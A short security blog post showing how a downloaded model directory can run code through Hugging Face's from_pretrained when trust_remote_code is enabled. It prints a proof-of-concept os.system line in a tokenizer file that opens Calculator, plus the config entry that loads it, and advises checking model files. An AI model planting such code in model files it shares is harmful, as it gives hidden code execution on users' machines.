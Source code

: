 ```yaml
---
layout: post
title:  Beginner Level - Backdoor llm through from_pretrained
tags: [llm,backdoor]
---
```


You cloned the code from github. And you downloaded the model file from some website. You run the demo code. Then you got calced.
This is the demo code taken from `***`. Is it safe to run the code?  

```python
tokenizer = AutoTokenizer.from_pretrained("./model-int4/", trust_remote_code=True)
```
It's safe, is it?
# How to backdoor through from_pretrained function?

if you add this code in the file `tokenization_demogpt.py` in the model directory, it will execute.  
```python
import os
os.system('/System/Applications/Calculator.app/Contents/MacOS/Calculator')
```
Let's examine the function.
[from_pretrained](https://github.com/huggingface/transformers/blob/05de038f3d249ce96740885f85fd8d0aa00c29bc/src/transformers/models/auto/tokenization_auto.py#L568)

```
trust_remote_code (`bool`, *optional*, defaults to `False`):
                Whether or not to allow for custom models defined on the Hub in their own modeling files. This option
                should only be set to `True` for repositories you trust and in which you have read the code, as it will
                execute code present on the Hub on your local machine.
```
If trust_remote_code is set to True, it will execute code on your local machine.  

If you read code, you can see that the code will load the `tokenizer_config.json`. (TOKENIZER_CONFIG_FILE = "tokenizer_config.json")[https://github.com/huggingface/transformers/blob/05de038f3d249ce96740885f85fd8d0aa00c29bc/src/transformers/tokenization_utils.py#L49]
```json
{
  "name_or_path": "******",
  "remove_space": false,
  "do_lower_case": false,
  "tokenizer_class": "DemoTokenizer",
  "auto_map": {
    "AutoTokenizer": [
      "tokenization_demogpt.DemoTokenizer",
      null
      ]
  }
}
```
Finally, it will read `auto_map` key. In the end, it will load `tokenization_demogpt`. Then our code will execute.


# What to do
Always check the model files. Load from trusted websites. Will you? Do you have the energy to do it?


## code
[register_for_auto_class](https://github.com/huggingface/transformers/blob/05de038f3d249ce96740885f85fd8d0aa00c29bc/src/transformers/modeling_utils.py#L3751)
[get_class_from_dynamic_module](https://github.com/huggingface/transformers/blob/05de038f3d249ce96740885f85fd8d0aa00c29bc/src/transformers/dynamic_module_utils.py#L378C15-L378C15)


